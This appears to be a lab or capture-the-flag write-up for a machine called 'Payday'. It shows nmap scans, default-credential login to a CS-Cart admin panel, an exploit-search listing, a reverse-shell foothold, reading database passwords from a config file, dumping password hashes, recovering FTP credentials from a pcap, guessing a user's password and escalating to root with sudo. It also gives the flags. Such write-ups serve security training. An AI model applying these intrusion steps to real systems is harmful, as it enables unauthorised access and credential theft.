

# Payday (rough notes)

> Lesson: ALWAYS look at odd looking files, especially if they are in the root directory

Nmap scan (with -A and specific ports after doing one for all ports):

```
PORT    STATE  SERVICE        VERSION
22/tcp  open   ssh            OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 f3:6e:87:04:ea:2d:b3:60:ff:42:ad:26:67:17:94:d5 (DSA)
|_  2048 bb:03:ce:ed:13:f1:9a:9e:36:03:e2:af:ca:b2:35:04 (RSA)
80/tcp  open   http           Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: CS-Cart. Powerful PHP shopping cart software
110/tcp open   pop3           Dovecot pop3d
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_pop3-capabilities: UIDL STLS SASL CAPA PIPELINING RESP-CODES TOP
|_ssl-date: 2024-03-17T02:35:47+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Issuer: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2008-04-25T02:02:48
| Not valid after:  2008-05-25T02:02:48
| MD5:   90db:2a9a:2d86:29dc:f047:d19d:c636:9c8e
|_SHA-1: 1bde:08b6:86fc:9892:33c9:7bd4:0125:c572:5b32:d829
139/tcp open   netbios-ssn    Samba smbd 3.0.26a (workgroup: MSHOME)
143/tcp open   imap           Dovecot imapd
|_imap-capabilities: completed Capability LOGINDISABLEDA0001 LITERAL+ OK IDLE SORT STARTTLS THREAD=REFERENCES MULTIAPPEND LOGIN-REFERRALS SASL-IR NAMESPACE UNSELECT IMAP4rev1 CHILDREN
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2024-03-17T02:35:47+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Issuer: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2008-04-25T02:02:48
| Not valid after:  2008-05-25T02:02:48
| MD5:   90db:2a9a:2d86:29dc:f047:d19d:c636:9c8e
|_SHA-1: 1bde:08b6:86fc:9892:33c9:7bd4:0125:c572:5b32:d829
445/tcp open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open   ssl/imap       Dovecot imapd
|_ssl-date: 2024-03-17T02:35:47+00:00; +7s from scanner time.
|_imap-capabilities: completed Capability LITERAL+ OK IDLE SORT AUTH=PLAINA0001 THREAD=REFERENCES MULTIAPPEND LOGIN-REFERRALS SASL-IR NAMESPACE UNSELECT IMAP4rev1 CHILDREN
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Issuer: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2008-04-25T02:02:48
| Not valid after:  2008-05-25T02:02:48
| MD5:   90db:2a9a:2d86:29dc:f047:d19d:c636:9c8e
|_SHA-1: 1bde:08b6:86fc:9892:33c9:7bd4:0125:c572:5b32:d829
995/tcp open   ssl/pop3       Dovecot pop3d
|_pop3-capabilities: UIDL SASL(PLAIN) PIPELINING CAPA USER RESP-CODES TOP
|_ssl-date: 2024-03-17T02:35:47+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Issuer: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2008-04-25T02:02:48
| Not valid after:  2008-05-25T02:02:48
| MD5:   90db:2a9a:2d86:29dc:f047:d19d:c636:9c8e
|_SHA-1: 1bde:08b6:86fc:9892:33c9:7bd4:0125:c572:5b32:d829
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- SMB, try anon access, etc
- HTTP server
- Then come back to the rest

### SMB:

Anon access gave us the share list, but can't do anything with the shares themselves.

Ran `nmap` with smb scripts, got some system OS users... nothing interesting.

### HTTP:

Running "CS Cart" some kind of marketplace template app



Enumerated dirs with gobuster using medium 2.3 wordlist, found `/admin`.

Admin login was `admin:admin`

Some exploits available for CS-Cart:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit cs-cart
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
CS-Cart - Multiple SQL Injections                                                   | php/webapps/27030.txt
CS-Cart 1.3.2 - 'index.php' Cross-Site Scripting                                    | php/webapps/31443.txt
CS-Cart 1.3.3 - 'classes_dir' LFI                                                   | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion                                 | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting                                  | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                                                   | php/webapps/48891.txt
CS-Cart 1.3.5 - Authentication Bypass                                               | php/webapps/6352.txt
CS-Cart 2.0.0 Beta 3 - 'Product_ID' SQL Injection                                   | php/webapps/8184.txt
CS-Cart 2.0.5 - 'reward_points.post.php' SQL Injection                              | php/webapps/33146.txt
CS-Cart 2.2.1 - 'products.php' SQL Injection                                        | php/webapps/36093.txt
CS-Cart 4.2.4 - Cross-Site Request Forgery                                          | php/webapps/36358.html
CS-Cart 4.3.10 - XML External Entity Injection                                      | php/webapps/40770.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The authenticated RCE exploit text file told us where to upload our reverse shell.

Got a shell as www-data

- From there we found our flag in user `patrick`'s home directory

```
patrick
$ cd pattrick	
cd: 12: can't cd to pattrick
$ cd patrick
$ ls
local.txt
$ cat local.txt
f800063f85d6a63ea07788a0244af158
```

## Privilege Escalation

Ran LinPEAS:

- Some processes running as root:

```
root      4720  0.0  0.1   2332   908 ?        Ss   22:30   0:00 /usr/sbin/cron
root      4748  0.0  1.2  21564  6224 ?        Ss   22:30   0:00 /usr/sbin/apache2 -k start
```

- Unknown SUID binary

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found
-rwsr-xr-- 1 root dhcp 2.9K Sep  7  2007 /lib/dhcp3-client/call-dhclient-script (Unknown SUID binary!)
```

- Might have a database password

```
╔══════════╣ Searching passwords in config PHP files
/var/www/config.php:$db_password = 'root';
```

```
$db_host = 'localhost';
$db_name = 'cscart';
$db_user = 'root';
$db_password = 'root';
```

Database has only two users, and we have their password hashes:

```
mysql> select email, password from cscart_users limit 10
select email, password from cscart_users limit 10
    -> ;
;
+--------------------------+----------------------------------+
| email                    | password                         |
+--------------------------+----------------------------------+
| admin@yourcomany.com     | 21232f297a57a5a743894a0e4a801fc3 | 
| customer@somecompany.com | 91ec1f9324753048c0096d036a694f86 | 
+--------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

(and we are "admin", so only customer is new).

Found a pcap in the root dir which contained some FTP traffic with credentials:


```
10	1.677909	10.1.1.248	10.11.1.220	FTP	78	Request: USER brett
...
13	4.469773	10.1.1.248	10.11.1.220	FTP	89	Request: PASS ilovesecuritytoo
```

In the end, I ended up trying to `su patrick` with `patrick:patrick` and that got us in as `patrick`... Lot's of time wasted! Keep it simple!


```
patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
www-data@payday:/var/www/skins$ su patrick
su patrick
Password: admin

su: Authentication failure
Sorry.
```

```
www-data@payday:/var/www/skins$ su patrick
su patrick
Password: patrick

patrick@payday:/var/www/skins$ whoami
whoami
patrick
```

Patrick can run anything as root...

```
patrick@payday:/var/www/skins$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:patrick

User patrick may run the following commands on this host:
    (ALL) ALL

```

So we just start a shell as root and we are done...

```
patrick@payday:/var/www/skins$ sudo /bin/bash -p
sudo /bin/bash -p
root@payday:/var/www/skins# whoami
whoami
root
root@payday:/var/www/skins# cd /root
cd /root
root@payday:/root# ls
ls
capture.cap  proof.txt
root@payday:/root# cat proof.txt
cat proof.txt
2371c46208de5f3556c92129f65858d9
```